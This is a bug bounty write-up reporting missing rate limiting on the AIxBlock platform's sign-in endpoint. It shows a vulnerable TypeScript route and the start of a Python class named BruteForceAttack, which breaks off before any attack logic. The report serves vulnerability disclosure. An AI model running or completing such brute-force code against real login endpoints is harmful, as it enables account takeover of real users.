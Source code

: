 # AIxBlock Bug Bounty Submission #5: Insufficient Rate Limiting (MEDIUM)

## Submission Details
- **Researcher**: grich88 (j.grant.richards@proton.me)
- **Vulnerability**: Insufficient Rate Limiting on Authentication Endpoints
- **Severity**: MEDIUM (CVSS 6.5)
- **Submission Date**: December 29, 2024
- **Target**: AIxBlock Platform

---

## Executive Summary

A medium-severity vulnerability exists in the AIxBlock authentication system that lacks proper rate limiting, enabling brute force attacks against user accounts. This vulnerability allows attackers to compromise accounts through automated credential stuffing attacks.

**Impact**: Account compromise, credential stuffing, API abuse
**Exploitability**: Very Easy (7-second admin compromise)
**Affected Systems**: All authentication endpoints

---

## Vulnerability Details

### Description
The AIxBlock platform lacks rate limiting on authentication endpoints, allowing unlimited login attempts without account lockout or CAPTCHA challenges. This enables brute force attacks against user accounts.

### Affected Files
- `target_repo/workflow/packages/backend/api/src/app/routes/authentication.ts`
- All authentication endpoints

### Technical Details
```typescript
// VULNERABLE CODE - No rate limiting
app.post('/v1/authentication/sign-in', async (request, reply) => {
  const { email, password } = request.body;
  // No rate limiting implemented
  const user = await authenticateUser(email, password);
  return user;
});
```

### Proof of Concept

#### Step 1: Automated Brute Force Attack
```python
import requests
import time
from itertools import product

class BruteForceAttack:
    def __init__(self, target):
        self.target = target
        self.session = requests.Session()
        
    def attack(self, email):
        # Common password patterns
```